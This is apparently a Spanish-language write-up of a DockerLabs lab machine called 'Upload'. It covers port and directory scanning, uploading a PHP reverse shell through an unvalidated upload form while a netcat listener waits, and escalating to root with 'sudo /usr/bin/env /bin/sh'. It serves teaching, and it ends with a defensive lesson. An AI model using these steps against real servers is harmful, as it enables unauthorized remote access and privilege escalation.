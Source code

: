# 📘 Informe Técnico - Máquina: *Upload*

* **Nivel:** Fácil
* **Propósito:** Evaluar la capacidad para identificar y explotar vulnerabilidades de subida de archivos.
* **Objetivo:** Obtener acceso remoto mediante una shell inversa y escalar privilegios a root.

---

![Logo](Imágenes/2025-05-15_15-37.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip upload.zip
```

Posteriormente, desplegamos la máquina vulnerable usando el siguiente comando:

```bash
sudo bash auto_deploy.sh Upload.tar
```

![Ping a la máquina](Imágenes/Capturas.png)


Verificamos que la máquina esté activa con un `ping` al contenedor:

```bash
ping -c1 172.17.0.3
```

![Nmap Puertos](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap detallado](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos detectados y escaneamos con más detalle:

```bash
nmap -sCV -p80 172.17.0.3
```

![Nmap detallado](Imágenes/Capturas_3.png)

### 🔍 Resultado:

* **Puerto 80**: Servicio HTTP activo (servidor web).

---

## 🌐 Análisis Web

Al acceder a la web en el puerto 80, observamos una interfaz simple con una opción de subida de archivos.

![Web](Imágenes/Capturas_4.png)

Realizamos un fuzzing de directorios para detectar rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

### 🔍 Directorios encontrados:

* `/uploads`
* `/index.html`
* `/upload.php`

![Pagina](Imágenes/Capturas_5.png)

Al ingresar a `/uploads`, observamos los archivos que han sido subidos previamente.

---

## ⚙️ Explotación - WebShell

En base al comportamiento de la aplicación, generamos una **PHP Reverse Shell** (`php-reverse-shell.php`). Este archivo se incluye en el repositorio como `exploit`.

Luego, iniciamos el listener en nuestra máquina atacante:

```bash
sudo nc -lvnp 443
```

Desde la interfaz de subida (`/upload.php`), cargamos nuestro archivo malicioso `.php`.

![Escucha](Imágenes/Capturas_7.png)

Posteriormente, al acceder al archivo desde la ruta `/uploads`, se ejecuta el payload y obtenemos una **shell inversa** como el usuario `www-data`.

![subida](Imágenes/Capturas_8.png)

![php](Imágenes/Capturas_9.png)

---

## ⚡ Escalada de Privilegios

Una vez dentro, ejecutamos el siguiente comando para verificar los privilegios sudo:

```bash
sudo -l
```

La salida indica que el usuario `www-data` puede ejecutar `/usr/bin/env` como root **sin contraseña**:

```
(root) NOPASSWD: /usr/bin/env
```


Aprovechamos esta configuración para escalar privilegios ejecutando una shell como root:

```bash
sudo /usr/bin/env /bin/sh
```

¡Y obtenemos acceso como **root**!

![root](Imágenes/Capturas_10.png)

---

## 🏁 Conclusión

La máquina *Upload* demuestra una vulnerabilidad común: **falta de validación en la subida de archivos**, lo cual permite la ejecución remota de comandos. La escalada de privilegios es posible gracias a una configuración de `sudo` mal gestionada que permite el uso de `env` como root sin contraseña.

> 💡 **Lección clave:** Nunca se debe permitir la ejecución de binarios como `env`, `python`, `perl`, etc., mediante sudo sin contraseña, especialmente desde usuarios de bajo privilegio como `www-data`.

---
